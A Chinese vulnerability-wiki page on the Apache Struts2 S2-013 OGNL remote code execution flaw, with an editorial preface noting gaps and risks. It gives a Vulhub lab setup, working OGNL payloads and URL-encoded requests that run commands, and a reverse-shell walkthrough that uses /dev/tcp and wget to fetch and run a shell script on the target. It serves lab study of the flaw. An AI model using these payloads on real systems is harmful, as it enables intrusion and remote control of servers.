


# Apache Struts2 S2-013 远程代码执行漏洞

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：s:a/s:url includeParams=get/all且请求参数参与二次OGNL；实验标签模板未内嵌
- 证据范围：与232 S2-014共享${}payload和2.3.14.1范围，需按前序与补丁绕过整理而非两个独立无关教程。

### 本次正文校订

- 按实际内容修正 5 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 标题仅013但使用014绕过方法且范围延伸2.3.14.1，须说明历史补丁阶段
- 缺CVE双编号及2.3.14.2修复，不能把旧首次修复视最终解决
- 普通表单称上传页面；复现缺实际标签和完整请求
- shell路径硬编码、状态修改及清理未交代

### 操作风险与资料使用

- 含反向连接或交互式命令执行方法：会产生出站连接和子进程；目标、监听端与网络须在授权隔离范围内，结束后关闭会话并核对遗留进程。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

Struts2 标签中 `<s:a>` 和 `<s:url>` 都包含一个 includeParams 属性，其值可设置为 none，get 或 all，参考官方其对应意义如下：

1. none - 链接不包含请求的任意参数值（默认）
2. get - 链接只包含 GET 请求中的参数和其值
3. all - 链接包含 GET 和 POST 所有参数和其值

`<s:a>` 用来显示一个超链接，当 `includeParams=all` 的时候，会将本次请求的 GET 和 POST 参数都放在 URL 的 GET 参数上。在放置参数的过程中会将参数进行 OGNL 渲染，造成任意命令执行漏洞。

漏洞详情:

- http://struts.apache.org/docs/s2-013.html
- http://struts.apache.org/docs/s2-014.html

## 漏洞影响

影响版本: 2.0.0 - 2.3.14.1

## 环境搭建

Vulhub 执行以下命令启动 s2-013 测试环境：

```shell
docker-compose build
docker-compose up -d
```

访问 `http://your-vps-ip:8080/index.jsp` 即可进入上传表单页面。

## 漏洞复现

任意命令执行 POC：

```
${(#_memberAccess["allowStaticMethodAccess"]=true,#a=@java.lang.Runtime@getRuntime().exec('id').getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new java.io.BufferedReader(#b),#d=new char[50000],#c.read(#d),#out=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),#out.println(#d),#out.close())}

// 或

${#_memberAccess["allowStaticMethodAccess"]=true,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())}
```

例如：

```
http://your-vps-ip:8080/link.action?a=%24%7B%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D%40java.lang.Runtime%40getRuntime().exec('id').getInputStream()%2C%23b%3Dnew%20java.io.InputStreamReader(%23a)%2C%23c%3Dnew%20java.io.BufferedReader(%23b)%2C%23d%3Dnew%20char%5B50000%5D%2C%23c.read(%23d)%2C%23out%3D%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2C%23out.println('dbapp%3D'%2Bnew%20java.lang.String(%23d))%2C%23out.close()%7D
```

成功执行命令 `id`：




### 反弹 shell

编写 shell 脚本并启动 http 服务器：

```
echo "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" > shell.sh
python3环境下：python -m http.server 80
```

上传 shell.sh 文件的命令为：

```shell
wget 192.168.174.128/shell.sh
```

上传 shell.sh 文件的 Payload 为：

```http
GET /link.action?a=%24%7B%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D%40java.lang.Runtime%40getRuntime().exec(%27wget%20192.168.174.128/shell.sh%27).getInputStream()%2C%23b%3Dnew%20java.io.InputStreamReader(%23a)%2C%23c%3Dnew%20java.io.BufferedReader(%23b)%2C%23d%3Dnew%20char%5B50000%5D%2C%23c.read(%23d)%2C%23out%3D%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2C%23out.println(%27dbapp%3D%27%2Bnew%20java.lang.String(%23d))%2C%23out.close()%7D HTTP/1.1
```

执行 shell.sh 文件的命令为：

```shell
bash /usr/local/tomcat/shell.sh
```

执行 shell.sh 文件的 Payload 为：

```http
GET /link.action?a=%24%7B%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D%40java.lang.Runtime%40getRuntime().exec(%27bash%20/usr/local/tomcat/shell.sh%27).getInputStream()%2C%23b%3Dnew%20java.io.InputStreamReader(%23a)%2C%23c%3Dnew%20java.io.BufferedReader(%23b)%2C%23d%3Dnew%20char%5B50000%5D%2C%23c.read(%23d)%2C%23out%3D%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2C%23out.println(%27dbapp%3D%27%2Bnew%20java.lang.String(%23d))%2C%23out.close()%7D HTTP/1.1
```

成功接收反弹 shell：




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
